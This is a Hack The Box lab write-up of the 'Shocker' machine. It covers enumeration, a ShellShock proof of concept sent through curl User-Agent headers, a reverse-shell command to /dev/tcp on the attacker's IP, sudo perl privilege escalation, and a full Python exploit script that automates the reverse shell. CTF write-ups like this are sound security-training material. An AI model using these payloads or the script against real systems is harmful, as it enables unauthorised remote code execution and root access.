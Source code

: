 ```yaml
---
title: "Shocker - HTB"
categories: [Linux, Easy]
tags: [Linux,Easy,Web,ShellShock,RCE]
mermaid: true
image: https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Shocker.png
---
```



# Introdution


[https://app.hackthebox.com/machines/Shocker](https://app.hackthebox.com/machines/Shocker)


This was a machine very easy in Hack The Box. In it we explore a vulnerability called ShellShock. 

The privilege escalation was with sudo in the perl binary.

The exploit for this machine is on the end of the post.

**Have a good time!**


## Diagram

```mermaid
graph TD
    A[Enumeration] -->|Nmap| B(Port 80)
    B --> C[Gobuster]
    C --> |Gobuster| D[/cgi-bin/user.sh/]
    D --> ShellShock --> E[RCE]
    E --> |Script Python| F[Shell]
    F --> G[Root]
```

# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.56 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sC -sV -p $ports 10.10.10.56
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled.png)


## Port 80 (http)

There’re a simple page web.

`http://10.10.10.56/`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%201.png)

The source code also don’t have nothing.

`view-source:http://10.10.10.56/`

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%202.png)

### Fuzzing Diretório WEB

We will make a fuzzing with the tool `gobuster`.

```bash
gobuster dir -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/big.txt -t 100 -e --no-error -r -f
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%203.png)

We find the directory `cgi-bin`.

Based in the name’s machine, we can suggest that this directory there’re the vulnerability ShellShock.

So we did another fuzzing in the directory with some common cgi extension (sh, cgi, pl).

```bash
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirb/big.txt -t 100 -e --no-error -r -f -x sh,cgi,pl
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%204.png)

We find only the file `user.sh`.

### User.sh

We run the file with `curl` to see your output

```bash
curl http://10.10.10.56/cgi-bin/user.sh
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%205.png)

Looks like it's a script running the `uptime` command, suggesting that this is a CGI bash script in execution

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%206.png)

We find shellshock.

# Exploration

## Exploiting ShellShock

> ShellShock (also known as Bashdoor or CVE-2014-6271) was a vulnerability in Bash discovered in 2014 that has to do with the Bash syntax for defining a function. The vuln allowed that the attacker run commands in places where they should to do only something safe like setting a environment variable.
> 

### POC shellshock:

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'id' " http://10.10.10.56/cgi-bin/user.sh
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%207.png)

Alternatively, we can run the `nmap` for discover the vuln:

```bash
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%208.png)

## Getting Shell

After to prepare the listener, I getting the shell with the below command

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%209.png)

# Post Exploration

## Privilege Escalation (shelly → root)

We check the `perl` run sudo.

```bash
sudo -l
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2010.png)

Looking in the [GTOFBins](https://gtfobins.github.io/gtfobins/perl/#sudo) website, we find the command that allow to get root with the perl.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2011.png)

```bash
sudo perl -e 'exec "/bin/bash";'
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2012.png)

# Get Shell - Script Automation

This is a script in python to exploit this machine.

`shocker-getshell.py`

```python
#! /usr/bin/env python3

## Author: 0xEtern4lW0lf
## Created: 18 Dez 2022
## Description: GetShell - Shocker - HTB

## ========= MODULES =========

import argparse
import requests
import socket
import telnetlib
from threading import Thread

## ========= VARIABLE =========

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

## ========= FUNCTION =========

## Set the handler
def handler(lport,target):
    print(f"[+] Starting handler on {lport} [+]")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn, addr = s.accept()
    print(f"[+] Receiving connection from {target} [+]")
    tn.sock = conn
    print("[+] Habemus Shell! [+]")
    tn.interact()

## Get the reverse shell
def GetShell(rhost,lhost,lport):
    print("[+] Sending payload! [+]")
    payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    url = f"http://{rhost}/cgi-bin/user.sh"
    headers = {"User-Agent": "() { :;}; echo; /bin/bash -c '%s'" %payload}
    r = requests.session()
    r.get(url, headers=headers)

## main
def main():
    ## Parse Arguments
    parser = argparse.ArgumentParser()
    parser = argparse.ArgumentParser(description='GetShell - Shocker / HTB - 0xEtern4lW0lf')
    parser.add_argument('-t', '--target', help='Target IP address or hostname', required=True)
    parser.add_argument('-l', '--lhost', help='Local IP address or hostname', required=True)
    parser.add_argument('-p', '--lport', help='Local Port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.lhost
    lport = args.lport

    ## Setup the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()

    ## Get the reverse shell
    GetShell(rhost,lhost,lport)

## ======= EXECUTION =======

if __name__ == '__main__':
    main()
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Shocker/Untitled%2013.png)

 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).